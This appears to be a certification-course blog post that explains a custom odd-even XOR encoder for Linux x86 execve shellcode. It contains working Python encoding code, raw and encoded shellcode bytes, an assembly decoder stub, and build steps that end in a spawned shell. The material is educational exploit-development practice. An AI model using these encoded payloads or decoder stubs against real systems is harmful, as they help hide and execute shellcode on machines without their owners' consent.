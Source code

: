 # Assignment #4: Odd-Even encoder
> This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:
> http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/
> Student ID: SLAE-1228

My idea for a custom encoder is very simple, in fact. In short, I broke the encoded shellcode in two parts: the even and odd positions. What this encoder does is reading the encoded string byte by byte and treating the bytes in odd and even positions differently. The biggest difficult was to create this decision making mechanism, which consists in two conditional jumps inside a loop. Depending whether it is an odd or even position, the current byte will be XORed with 0xAA or 0xBB.

## Odd-Even XOR encoder
I used `python3.5` for encoding the execve shellcode:

```
shellcode = b"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"

encoded = ""
encoded2 = ""

for idx, x in enumerate(shellcode):
    if idx%2 == 0:
        y = x ^ 0xaa
    else:
        y = x ^ 0xbb

    encoded += '\\x'
    encoded += '%02x' % (y & 0xff)

    encoded2 += '0x'
    encoded2 += '%02x,' %(y & 0xff)

print(encoded)
print(encoded2)
```

Generating the encoded shellcode:

```
$ python3.5 encoder.py 
\x9b\x7b\xfa\xd3\x85\x94\xd9\xd3\xc2\x94\xc8\xd2\xc4\x32\x49\xeb\x23\x59\xf9\x32\x4b\x0b\xa1\x76\x2a
0x9b,0x7b,0xfa,0xd3,0x85,0x94,0xd9,0xd3,0xc2,0x94,0xc8,0xd2,0xc4,0x32,0x49,0xeb,0x23,0x59,0xf9,0x32,0x4b,0x0b,0xa1,0x76,0x2a,
```

## Odd-Even XOR decoder
After JMP-CALL-POP, we are inside the loop which runs over the whole encrypted shellcode (25 bytes). The first thing we do is checking whether the position index is even or odd and jump to the corresponding piece of code. After XORing the current byte of the encoded shellcode, it loops back to the `decode` label, continuing the loop.

```
global _start			

section .text
_start:
	jmp short call_shellcode

decoder:
	pop esi
	xor ecx, ecx
	mov cl, 25

decode:
	test cl, 1
	jz even   
	jnz odd
even:
	mov bx, [esi]
        xor bx, 0xBB
	mov [esi], bl

       inc esi
       loop decode
       jmp short EncodedShellcode
odd:
       mov bx, [esi]
       xor bx, 0xAA
       mov [esi], bl

       inc esi
       loop decode
       jmp short EncodedShellcode

call_shellcode:

	call decoder
	EncodedShellcode: db 0x9b,0x7b,0xfa,0xd3,0x85,0x94,0xd9,0xd3,0xc2,0x94,0xc8,0xd2,0xc4,0x32,0x49,0xeb,0x23,0x59,0xf9,0x32,0x4b,0x0b,0xa1,0x76,0x2a 
``` 

This is a CFG visualization of the decoder generated by IDA.

![Decoder visualization](https://github.com/marcosValle/SLAE/raw/master/assignment4/decoder.png)

## A small caveat
In order to be able to modify the encrypted shellcode (ie to substitute its bytes for the decrypted ones) we must remember it is located in the `.text` section which is not writable by default. 

Lets assemble and link our decoder:

    $ nasm -f elf32 decoder.asm -o decoder.o ; ld -m elf_i386 decoder.o -o decoder

Now we check sessions permissions using `readelf`:

```
$ readelf -S decoder
There are 5 section headers, starting at offset 0x1fc:

Section Headers:
  [Nr] Name              Type            Addr     Off    Size   ES Flg Lk Inf Al
  [ 0]                   NULL            00000000 000000 000000 00      0   0  0
  [ 1] .text             PROGBITS        08048060 000060 00004a 00  AX  0   0 16
  [ 2] .symtab           SYMTAB          00000000 0000ac 0000d0 10      3   9  4
  [ 3] .strtab           STRTAB          00000000 00017c 00005d 00      0   0  1
  [ 4] .shstrtab         STRTAB          00000000 0001d9 000021 00      0   0  1
Key to Flags:
  W (write), A (alloc), X (execute), M (merge), S (strings), I (info),
  L (link order), O (extra OS processing required), G (group), T (TLS),
  C (compressed), x (unknown), o (OS specific), E (exclude),
  p (processor specific)
```

Just confirming where our string is:

    objdump -d decoder | grep EncodedShellcode
    ...
    08048091 <EncodedShellcode>:
    ...

So yeah, in `.text` section, which is not Writable. To make it writable we need to link it with the `-N` parameter:

```
       -N
       --omagic
           Set the text and data sections to be readable and writable.  Also, do not page-align the data segment, and disable linking against
           shared libraries.  If the output format supports Unix style magic numbers, mark the output as "OMAGIC". Note: Although a writable
           text section is allowed for PE-COFF targets, it does not conform to the format specification published by Microsoft.
```

Therefore:

	$ nasm -f elf32 decoder.asm -o decoder.o ; ld -N -m elf_i386 decoder.o -o decoder

Checking permissions:

```
$ readelf -S decoder
There are 5 section headers, starting at offset 0x1fc:

Section Headers:
  [Nr] Name              Type            Addr     Off    Size   ES Flg Lk Inf Al
  [ 0]                   NULL            00000000 000000 000000 00      0   0  0
  [ 1] .text             PROGBITS        08048060 000060 00004a 00 WAX  0   0 16
  [ 2] .symtab           SYMTAB          00000000 0000ac 0000d0 10      3   9  4
  [ 3] .strtab           STRTAB          00000000 00017c 00005d 00      0   0  1
  [ 4] .shstrtab         STRTAB          00000000 0001d9 000021 00      0   0  1
Key to Flags:
  W (write), A (alloc), X (execute), M (merge), S (strings), I (info),
  L (link order), O (extra OS processing required), G (group), T (TLS),
  C (compressed), x (unknown), o (OS specific), E (exclude),
  p (processor specific)
```

There we go, writable `.text` section!. Executing it:

```
$ ./decoder 
$ whoami
valle
```

